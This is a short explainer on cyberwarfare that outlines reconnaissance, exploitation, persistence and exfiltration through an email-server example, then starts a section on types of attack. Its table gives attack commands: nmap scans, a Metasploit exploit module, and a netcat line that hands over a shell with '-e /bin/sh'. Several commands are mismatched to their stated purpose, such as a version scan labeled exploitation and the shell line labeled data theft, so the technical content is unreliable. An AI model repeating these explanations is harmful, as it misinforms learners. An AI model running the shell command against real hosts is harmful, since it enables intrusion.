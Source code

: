 Imagine a country's military arsenal is not made up of tanks and planes, but rather complex computer systems and networks. Just as a traditional army might engage in warfare to protect its nation, cyberwarfare involves using digital attacks to disrupt or destroy an adversary's computer systems and networks.

This analogy will help ground the abstract concepts of cyberwarfare in concrete terms.

---
## Step-by-Step Breakdown with Examples
### The Core Mechanics

Cyberwarfare typically involves a series of steps:

1. **Reconnaissance**: ==Gathering information about the target's computer systems, networks, and data==.
2. **Exploitation**: ==Identifying vulnerabilities and exploiting them to gain access or control==.
3. **Persistence**: ==Maintaining access or control over the target's systems and data==.
4. **Exfiltration**: ==Stealing sensitive information or disrupting critical systems==.

Let's work through an example:

Suppose an attacker wants to exploit a vulnerability in a company's email server. The steps would be:

1. Reconnaissance: The attacker scans the company's network to identify the email server's IP address and open ports.
2. Exploitation: The attacker uses a tool like Nmap to scan for vulnerabilities and finds an unpatched flaw in the email server's software.
3. Persistence: The attacker installs malware on the email server, allowing them to maintain access even after the initial attack.
4. Exfiltration: The attacker steals sensitive employee data or disrupts the email server, causing downtime.

Here's a numerical example:

| Step | Action         | Example                                                                    |
| ---- | -------------- | -------------------------------------------------------------------------- |
| 1    | Reconnaissance | Scanning for IP address and open ports: `nmap -p 25-30 192.168.1.100`      |
| 2    | Exploitation   | Identifying vulnerability using Nmap: `nmap -sV -p 25-30 192.168.1.100`    |
| 3    | Persistence    | Installing malware: `msfconsole > use exploit/unix/webdav_exec`            |
| 4    | Exfiltration   | Stealing data or disrupting email server: `nc 192.168.1.100 25 -e /bin/sh` |

---
## Types of Cyberwarfare

Below are some types of cyberwarfare

### 1. Propaganda

==The propaganda attack aims at changing the mental state of the people in the given nation. This can be achieved through dissemination of falsehood which instill hopelessness or general lack of sympathy towards the opponent==.
